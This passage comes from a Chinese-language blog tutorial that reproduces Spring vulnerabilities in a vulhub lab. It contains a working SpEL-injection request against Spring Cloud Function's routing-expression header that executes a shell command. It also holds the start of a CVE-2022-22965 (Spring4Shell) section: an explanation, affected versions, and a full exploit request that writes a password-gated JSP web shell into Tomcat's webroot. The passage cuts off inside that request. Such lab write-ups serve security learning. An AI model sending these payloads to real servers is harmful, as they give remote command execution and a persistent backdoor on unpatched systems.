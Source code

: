 

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/496b237c532742ca9c78abb132baf060.png)
再次查看就可以发现文件创建成功
![在这里插入图片描述](https://i-blog.csdnimg.cn/direct/0b2a04440b4148b68d7f3d2bf5c485f3.png)




---


SpEL注入相关漏洞到此结束。
下面就不是有关SpEL的一些Spring漏洞了。


# Spring Framework 远程命令执行漏洞(CVE\-2022\-22965\)


* 漏洞原理
vulhub解释：
在 JDK 9\+ 上运行的 Spring MVC 或 Spring WebFlux 应用程序可能容易受到通过数据绑定进行的远程代码执行 (RCE) 攻击。特定漏洞需要应用程序在 Tomcat 上以 WAR 部署运行。如果应用程序部署为 Spring Boot 可执行 jar（即默认），则不易受到攻击。但是，漏洞的性质更为普遍，可能还有其他方法可以利用它。
* 影响版本
Spring Framework 5\.3\.x \~ 5\.3\.18
Spring Framework 2\.x \~ 5\.2\.20
使用tomcat \< 9\.0\.62 部署spring并且使用了POJO参数绑定
* 漏洞复现
随便抓包，修改成以下数据包（记得还有两个回车）



```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
```